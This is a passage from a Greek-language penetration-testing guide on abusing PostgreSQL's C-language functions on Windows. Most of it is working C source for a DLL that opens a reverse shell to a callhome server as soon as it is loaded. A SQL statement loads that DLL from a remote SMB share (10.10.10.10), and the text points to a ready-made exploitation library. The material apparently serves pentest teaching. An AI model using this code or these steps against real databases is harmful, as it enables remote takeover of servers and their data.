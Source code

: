 ```c
const char *ip = PG_REVSHELL_CALLHOME_SERVER;
u_short port = atoi(PG_REVSHELL_CALLHOME_PORT);

WSAStartup(MAKEWORD(2, 2), &wsaData);
wsock = WSASocket(AF_INET, SOCK_STREAM,
IPPROTO_TCP, NULL, 0, 0);

struct hostent *host;
host = gethostbyname(ip);
strcpy_s(ip_addr, sizeof(ip_addr),
inet_ntoa(*((struct in_addr *)host->h_addr)));

server.sin_family = AF_INET;
server.sin_port = htons(port);
server.sin_addr.s_addr = inet_addr(ip_addr);

WSAConnect(wsock, (SOCKADDR*)&server, sizeof(server),
NULL, NULL, NULL, NULL);

memset(&startupinfo, 0, sizeof(startupinfo));
startupinfo.cb = sizeof(startupinfo);
startupinfo.dwFlags = STARTF_USESTDHANDLES;
startupinfo.hStdInput = startupinfo.hStdOutput =
startupinfo.hStdError = (HANDLE)wsock;

CreateProcessA(NULL, program, NULL, NULL, TRUE, 0,
NULL, NULL, &startupinfo, &processinfo);

return TRUE;
}

#pragma warning(pop) /* re-enable 4996 */

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum dummy_function(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(add_one);

Datum dummy_function(PG_FUNCTION_ARGS)
{
int32 arg = PG_GETARG_INT32(0);

PG_RETURN_INT32(arg + 1);
}
```
Σημειώστε πώς σε αυτή την περίπτωση ο **κακόβουλος κώδικας είναι μέσα στη συνάρτηση DllMain**. Αυτό σημαίνει ότι σε αυτή την περίπτωση δεν είναι απαραίτητο να εκτελέσετε τη φορτωμένη συνάρτηση στο postgresql, απλώς **φορτώνοντας το DLL** θα **εκτελέσει** το reverse shell:
```c
CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS '\\10.10.10.10\shared\dummy_function.dll', 'dummy_function' LANGUAGE C STRICT;
```
Το [PolyUDF project](https://github.com/rop-la/PolyUDF) είναι επίσης ένα καλό σημείο εκκίνησης με το πλήρες έργο MS Visual Studio και μια έτοιμη προς χρήση βιβλιοθήκη (συμπεριλαμβανομένων: _command eval_, _exec_ και _cleanup_) με υποστήριξη πολλαπλών εκδόσεων.
